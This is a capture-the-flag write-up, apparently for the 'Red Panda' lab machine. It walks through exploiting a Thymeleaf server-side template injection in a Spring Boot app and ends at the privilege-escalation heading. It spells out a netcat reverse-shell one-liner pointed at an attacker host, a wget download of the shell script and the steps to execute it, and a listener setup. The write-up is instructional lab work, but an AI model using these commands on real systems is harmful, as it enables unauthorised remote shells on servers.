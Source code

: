 Looking at the source code, There is this line which seems to be interesting:

```html
<title>Red Panda Search | Made with Spring Boot</title>
```

SpringBoot is a module of spring framework which is used to create stand-alone, production-grade Spring based Applications with minimum programmer’s efforts. It is developed on top of core spring framework. The main concept behind spring boot is to avoid lot of boilerplate code and configuration to improve development, unit test etc.

I tried vulnerabilities like SQLi but that didn't seem to do me much, so I decided to look for vulnerabilities in SpringBoot. The default SpringBoot WebApp comes with 3 dependencies i.e, SpringMVC, Jetty and Thymeleaf. (https://spring.io/guides/gs/spring-boot/). These will be key in discovering vulnerability needed to exploit this machine.

## Exploit

Right away, Thymeleaf seems to have an SSTI vulnerability i.e, User input is embedded in a template in an unsafe manner and results in remote code execution on the server. Thymeleaf is based on Java, so the injection will obviously be java-based. We start looking for java SSTI payloads and we can find out 2 important details:

1. Java SSTI payloads usually begin with `$` but can also use `*` as a prefix.
2. Certain payloads will allow you to view only a part of the desired response, so the ideal payload is usually constructed with individual characters being concatenated.

There are many Java SSTI payload generators, here are 2 generators that you can use:

1. https://github.com/VikasVarshney/ssti-payload
2. https://github.com/adeiarias/Java-SSTI-generator

With this in hand, you would assume that just running a simple revshell payload would be enough. Unfortunately, getting a foothold will require a little bit more work. Firstly we have to make a shell script with our rev shell:

```vim
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc (HOST-IP) (PORT) >/tmp/f' > shell.sh
```

This script is what we will use to execute a reverse shell, run `python -m http.server <PORT>` on the directory with the shell script on it and `nc -lvnp (PORT)` to catch the reverse shell.

We can use the following combination of commands (which need to be made into payloads with the above provided generators) to get a shell:

```vim
wget http://<HOST_IP>:<PORT>/shell.sh

chmod 777 shell.sh

./shell.sh
```

With this, you can view the user.txt at /home/woodenk/user.txt

## Priv-Esc

